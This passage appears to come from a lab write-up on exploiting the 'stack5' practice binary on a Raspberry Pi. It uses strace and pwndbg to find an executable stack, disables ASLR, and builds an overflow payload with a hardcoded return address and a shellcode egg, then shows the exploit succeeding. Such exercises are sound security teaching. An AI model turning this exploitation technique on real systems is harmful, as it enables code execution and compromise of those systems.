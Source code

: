 If the things don't result as expected, `strace` can be useful to
inspect what syscalls are being called and with which parameters:

```python
pi@raspberrypi:~$ strace -i ./test-egg egg.text
....
strace: Process 4959 attached <--- child process
execve("/bin/bash", [0x6e69622f, ..., 0x666f], 0x2407f) = -1 EFAULT (Bad address)
           ^            ^
         good          bad
```

## Search a home

Fortunately the stack is executable:

```nasm
pwndbg> vmmap
   0x10000    0x11000 r-xp     1000 0      /home/pi/stack5
   0x20000    0x21000 rwxp     1000 0      /home/pi/stack5
0xb6fcc000 0xb6fec000 r-xp    20000 0      /usr/lib/arm-linux-gnueabihf/ld-2.28.so
0xb6ffc000 0xb6ffe000 rwxp     2000 20000  /usr/lib/arm-linux-gnueabihf/ld-2.28.so
0xb6fff000 0xb7000000 r-xp     1000 0      [sigpage]
0xbefdf000 0xbf000000 rwxp    21000 0      [stack]
0xffff0000 0xffff1000 r-xp     1000 0      [vectors]
```

We can write the egg in the stack and then jump to it. The content
of the stack should be:

{% maincolumnplantuml engine: 'ditaa' args: '--no-shadows --no-separation' %}
                 sp points here after func returned
                 |
                 v                  ||
--- main --------+------ start --   ||
AAAAAAAAA  addr1 | XXXXXXX      ... || bottom
--- ^ ----- ^ ---+--- ^ ---------   ||
    |       |         |             ||
 padding    sp       egg
{% endmaincolumnplantuml %}

`addr1` is `sp`. But what value is?

If we disable ASLR we can peek the value with a debugger: 0xbefffbb8

## The attack

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb8\xfb\xff\xbe' > exploit
pi@raspberrypi:~$ cat egg.text >> exploit

pi@raspberrypi:~$ rm -f pwned_proof

pi@raspberrypi:~$ setarch linux32 --addr-no-randomize /bin/bash

(aslr disabled) pi@raspberrypi:~$ cat exploit | ./stack5
(aslr disabled) pi@raspberrypi:~$ echo $?
0

(aslr disabled) pi@raspberrypi:~$ cat pwned_proof
pwn!
```
